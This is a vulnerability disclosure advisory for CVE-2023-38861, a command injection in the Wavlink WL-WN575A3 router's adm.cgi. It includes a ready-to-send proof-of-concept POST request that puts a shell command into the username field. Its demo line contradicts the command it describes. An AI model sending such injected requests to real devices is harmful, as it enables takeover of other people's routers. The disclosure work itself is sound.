

# CVE-ID

[cve-2023-38861](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38861)

# Information

**Vendor of the products:**  WAVLINK

**Vendor's website:**  https://www.wavlink.com/en_us

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com))

**Affected products:** Wavlink WL-WN575A3

**Affected firmware version:** R75A3_V1410_220513

**Firmware download address:** https://www.wavlink.com/en_us/firmware/details/fac744bd61.html

# Overview

`Wavlink WL-WN575A3 R75A3_V1410_220513` has a command injection vulnerability detected at function `set_sys_adm`. Attackers can send `POST` request messages to `/cgi-bin/adm.cgi` and inject evil commands into parameter `username` to execute arbitrary commands.

# Product parameters

`Wavlink WL-WN575A3` is an AC1200 Dual-band Wi-Fi Range Extender. The test version(the newest version) here is `R75A3_V1410_220513`.


# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/adm.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.


In the function `ftext`, When sending a POST request to this interface, function `set_sys_adm` can be accessed by setting the parameter value of `page` to `sysAdm`.


In the function `set_sys_adm`, the program uses function `web_get` to obtain the content of parameter `SYSPASS`, `username` and `newpass` which are sent by `POST` request. On line 55, the attacker can complete command execution by controlling the `username` variable.




# POC

Send the following to the URL `http://192.168.10.1/cgi-bin/adm.cgi` by `POST` request.

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass=12345678
```

# Attack Demo

After sending the POC, the command `ls>/etc_ro/lighttpd/www/data.html` will be executed and `aaa.html` will be created in the `/etc_ro/lighttpd/www/data.html` directory.


